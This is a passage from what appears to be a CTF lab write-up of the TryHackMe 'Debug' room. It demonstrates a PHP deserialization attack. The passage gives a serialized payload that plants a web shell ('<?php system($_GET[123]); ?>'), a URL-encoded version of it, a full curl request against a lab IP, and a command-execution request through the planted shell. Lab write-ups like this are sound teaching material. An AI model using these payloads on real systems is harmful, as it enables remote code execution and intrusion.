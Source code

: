 Let’s run add this PHP code in a local file and run it.

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403142007.png)

Alright, we get the serialized string:

```d
O:10:"FormSubmit":2:{s:9:"form_file";s:12:"umar0x01.php";s:7:"message";s:28:"<?php system($_GET[123]); ?>";}
```

Let me try and walk you through the whole serialized string.

* `O` means object
* `O:10` means object name’s length \(i.e. -&gt; 10\)
* `2:{` means there are two properties/attributes
* `s:9` means that our property/attribute is a string and is of length of 9 chars
* `s:9:"form_file";` Length of 9 and property name

Probably, that explained the serialized string. You can always google for more details!

Now, we need to URL encode our string and pass it into the `debug` parameter in the application.

For URL encoding, I’ll use [cyberchef](https://gchq.github.io/CyberChef).

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403142403.png)

URL Encoded string looks like:

```d
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form%5Ffile%22%3Bs%3A12%3A%22umar0x01%2Ephp%22%3Bs%3A7%3A%22message%22%3Bs%3A28%3A%22%3C%3Fphp%20system%28%24%5FGET%5B123%5D%29%3B%20%3F%3E%22%3B%7D
```

Let’s pass this in the URL and see if our new file gets created.

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403142455.png)

Yay! It did, the string printed in the bottom indicates that.

Here’s the cURL request, if you’ve problems reproducing the above:

```bash
curl -i 'http://10.10.51.225/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A{s%3A9%3A%22form_file%22%3Bs%3A12%3A%22umar0x01.php%22%3Bs%3A7%3A%22message%22%3Bs%3A28%3A%22%3C%3Fphp%20system(%24_GET[123])%3B%20%3F%3E%22%3B}' --globoff \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \
-H 'Accept-Language: en-US,en;q=0.5' \
-H 'Connection: close'
```

Now, let’s access the .php file with our RCE code in it and get reverse shell!

```d
view-source:http://10.10.51.225/umar0x01.php?123=ls%20-la
```

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403142819.png)
